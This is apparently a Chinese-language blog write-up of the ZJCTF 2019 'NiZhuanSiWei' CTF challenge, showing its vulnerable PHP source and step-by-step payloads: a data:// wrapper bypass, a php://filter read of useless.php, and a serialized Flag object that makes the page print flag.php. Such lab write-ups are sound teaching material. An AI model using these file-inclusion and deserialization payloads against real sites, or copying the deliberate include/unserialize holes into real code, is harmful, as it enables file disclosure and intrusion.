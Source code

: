 ```yaml
---
title: ZJCTF 2019 NiZhuanSiWei
date: 2022-05-28 21:59:12
toc: false
tags:
- CTF
- 反序列化
- PHP伪协议
categories: CTF
my: ZJCTF-2019-NiZhuanSiWei
---
```


题目源码:

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

很明显的反序列化题目，需要get传参数`text,file,password`还需要进行一个绕过

`if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf"))`

首先这个text不能为空，在文件中读取字符串为`welcome to the zjctf`

此时就需要用到data://协议，构造payload

```
?text=data://text/plain,welcome to the zjctf
```

然后观察有一正则匹配，我们不能直接为flag.php，有一文件包含了`useless.php`我们利用php://filter协议读取源码

```
file=php://filter/read=convert.base64-encode/resource=useless.php
```

将二者结合拿到base64编码后的源码

```
text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528220808966.png)

在进行解码后

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
```

直接进行反序列化

```php
<?php 
class Flag{  //flag.php 
    public $file="flag.php"; 
    public function __tostring(){ 
        if(isset($this->file)){ 
            echo file_get_contents($this->file);
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        } 
    } 
} 
$password=new Flag();
echo serialize($password);
?> 
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528221026104.png)

最终我们的payload

```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
```

![](https://nssctf.wdf.ink/img/xmj/image-20220528221443996.png)

右键查看源码找到flag

![](https://nssctf.wdf.ink/img/xmj/image-20220528221516224.png)
